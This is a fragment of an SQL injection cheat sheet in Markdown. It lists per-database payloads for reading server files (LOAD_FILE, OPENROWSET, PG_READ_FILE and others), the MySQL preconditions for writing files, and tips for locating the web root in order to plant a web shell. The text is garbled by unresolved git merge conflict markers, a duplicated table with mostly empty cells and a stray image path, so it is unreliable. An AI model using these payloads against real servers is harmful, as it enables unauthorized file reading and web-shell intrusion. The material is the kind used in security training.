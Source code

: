 | SQLite     |   
=======
>>>>>>> 3def6ed623ff9aca1f86372133bb0275d92d1d9b:zNew/Web/OWASP/SQLi.md

* * *

# Files
First, we have to determine which user we are within the database. While we do not necessarily need database administrator (DBA) privileges to read data, this is becoming more required in modern DBMSes, as only DBA are given such privileges. The same applies to other common databases. If we do have DBA privileges, then it is much more probable that we have file-read privileges. If we do not, then we have to check our privileges to see what we can do.

## Read

<<<<<<< HEAD:docs/zNew/Web/OWASP/SQLi.md
| DBMS       | Payload                                                             |
|------------|---------------------------------------------------------------------|
| MySQL      | LOAD_FILE('/path/to/file')                                          |
| MSSQL      | OPENROWSET(BULK 'C:\path\to\file', SINGLE_CLOB)                     |
| PostgreSQL | PG_READ_FILE('/path/to/file')                                       |
| Oracle     | utl_file.get_line(utl_file.fopen('/path/to/','file','R'), <buffer>) |
| SQLite     | readfile('/path/to/file')                                           |
=======
| DBMS       | Payload                                                                          |
|------------|----------------------------------------------------------------------------------|
| MySQL      | LOAD_FILE('/path/to/file')        |
| MSSQL      |  |
| PostgreSQL |   |
| Oracle     |                    |
| SQLite     |  
>>>>>>> 3def6ed623ff9aca1f86372133bb0275d92d1d9b:zNew/Web/OWASP/SQLi.md

To be able to write files to the back-end server using a MySQL database, we require three things:

* User with FILE privilege enabled
* MySQL global secure_file_priv variable not enabled
* Write access to the location we want to write to on the back-end server


## Write
`Note: To write a web shell, we must know the base web directory for the web server (i.e. web root). One way to find it is to use load_file to read the server configuration, like Apache's configuration found at /etc/apache2/apache2.conf, Nginx's configuration at /etc/nginx/nginx.conf, or IIS configuration at %WinDir%\System32\Inetsrv\Config\ApplicationHost.config, or we can search online for other possible configuration locations. Furthermore, we may run a fuzzing scan and try to write files to different possible web roots, using ` [this wordlist for Linux](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-linux.txt)` or `[this wordlist for Windows](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-windows.txt)`. Finally, if none of the above works, we can use server errors displayed to us and try to find the web directory that way.`
